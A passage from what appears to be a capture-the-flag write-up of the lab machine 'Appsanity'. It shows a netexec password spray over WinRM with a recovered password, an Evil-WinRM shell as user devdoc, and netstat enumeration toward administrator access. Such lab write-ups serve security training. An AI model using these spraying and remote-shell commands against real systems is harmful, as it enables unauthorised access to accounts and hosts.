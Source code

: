 ```

oxdf@hacky$ netexec winrm meddigi.htb -u users -p '1g0tTh3R3m3dy!!' --continue-on-success
WINRM       10.10.11.238    5985   APPSANITY        [*] Windows 10 / Server 2019 Build 19041 (name:APPSANITY) (domain:Appsanity)
WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\Administrator:1g0tTh3R3m3dy!!
WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\DefaultAccount:1g0tTh3R3m3dy!!
WINRM       10.10.11.238    5985   APPSANITY        [+] Appsanity\devdoc:1g0tTh3R3m3dy!! (Pwn3d!)
WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\Guest:1g0tTh3R3m3dy!!
WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\svc_exampanel:1g0tTh3R3m3dy!!
WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\svc_meddigi:1g0tTh3R3m3dy!!
WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\svc_meddigiportal:1g0tTh3R3m3dy!!
WINRM       10.10.11.238    5985   APPSANITY        [-] Appsanity\WDAGUtilityAccount:1g0tTh3R3m3dy!!

```

I like `--continue-on-success` to see if multiple users share the password. It works for devdoc, and gets a shell with Evil-WinRM:

```

oxdf@hacky$ evil-winrm -i meddigi.htb -u devdoc -p '1g0tTh3R3m3dy!!'

Evil-WinRM shell v3.4
*Evil-WinRM* PS C:\Users\devdoc\Documents> 

```

## Shell as administrator

### Enumeration

#### Identify ReportManagement Process

In looking around the host, I’ll notice there are a bunch more ports listening than the three I can connect to from my host:

```
*Evil-WinRM* PS C:\Users\devdoc\Documents> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:100            0.0.0.0:0              LISTENING       4880
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       1280
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       692
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       532
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1116
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1528
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       668
  TCP    10.10.11.238:139       0.0.0.0:0              LISTENING       4
  TCP    10.10.11.238:5985      10.10.14.6:44310       ESTABLISHED     4
  TCP    10.10.11.238:62885     10.10.14.6:443         ESTABLISHED     4480
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       924
  TCP    [::]:443               [::]:0                 LISTENING       4
  TCP    [::]:445               [::]:0                 LISTENING       4
```